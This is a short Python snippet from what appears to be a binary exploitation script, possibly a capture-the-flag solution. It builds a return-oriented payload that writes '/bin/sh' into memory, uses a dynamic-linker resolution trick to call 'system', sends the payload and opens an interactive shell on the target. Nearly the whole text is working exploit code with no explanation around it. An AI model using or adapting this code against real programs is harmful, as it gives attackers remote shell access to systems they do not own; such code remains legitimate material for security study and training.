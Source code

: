 ```python
r.send(buf)
buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```